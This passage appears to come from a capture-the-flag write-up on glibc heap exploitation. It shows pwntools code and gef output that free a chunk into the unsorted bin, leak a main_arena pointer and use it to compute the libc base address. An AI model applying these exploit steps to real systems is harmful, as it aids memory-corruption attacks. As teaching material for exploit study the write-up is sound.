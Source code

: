 ```python
    data = data.strip()
    data = data.replace(b" ", b"")
    io.recvuntil(">>> ")
    return bytearray.fromhex(data.decode("utf8"))

def exit():
    """
    launches a DDOS attack on the infrastructure
    """
    io.sendline("4")

io = start()

chunk_A = malloc(0x100, "A"*0x100)
chunk_B = malloc(0x100, "B"*0x100)

free(chunk_A)
print(read(chunk_A))
```

When we run it, the script prints `bytearray(b'x\xab\x7fc\x97\x7f\x00\x00x\xab\x7fc\x97\x7f\x00\x00')`, which the address `0x7f97637fab78`, two times. As we can see by issuing `x 0x7f97637fab78` in `gdb`, it outputs `0x7f97637fab78 <main_arena+88>:	0x0000555556907220`; it corresponds to the address of the `main_arena`, located in the libc, plus 88 bytes.
Here's how it works...
Using `gef`s `heap chunks` and `heap bins` commands, we can display the state of the heap :
```bash
gef➤  heap chunks
Chunk(addr=0x555556907010, size=0x110, flags=PREV_INUSE)
    [0x0000555556907010     78 ab 7f 63 97 7f 00 00 78 ab 7f 63 97 7f 00 00    x..c....x..c....]
Chunk(addr=0x555556907120, size=0x110, flags=)
    [0x0000555556907120     42 42 42 42 42 42 42 42 42 42 42 42 42 42 42 42    BBBBBBBBBBBBBBBB]
Chunk(addr=0x555556907230, size=0x20de0, flags=PREV_INUSE)  ←  top chunk

gef➤  heap bins
[+] unsorted_bins[0]: fw=0x555556907000, bk=0x555556907000
 →   Chunk(addr=0x555556907010, size=0x110, flags=PREV_INUSE)
```
We can see that the chunk `A` was linked inside the unsorted bin, meaning that the `main arena` has two pointers (a `fd`, forward pointer, and a `bk`, backward pointer) pointing to the chunk `A`, itself having two pointers pointing inside the `main arena`; that is where our address `0x7f97637fab78` is coming from.
You might wonder why we had to allocate a 2nd chunk instead of just allocating `chunk_A`. That's because of something called "consolidation" : chunks of this size (0x110) are automatically "fused", consolidated, with the `top chunk` when freed, instead of being linked to the `unsorted bin`. The chunk `B` acts as a "guard" to prevent consolidation. Mind that any size for the chunk `B` would do.

We can then rebase our libc using `pwntools` by changing a few lines :
```python
io = start()

chunk_A = malloc(0x100, "AAAA")
chunk_B = malloc(0x100, "BBBB")

# Free chunk A
free(chunk_A)

# Read fd from chunk A
chunk_A_data = read(chunk_A)
main_arena_leak = u64(chunk_A_data[:8])
libc.address = (main_arena_leak - 88) - libc.sym.main_arena
log.info(f"libc : {libc.address:#x}")

# Free chunk B
```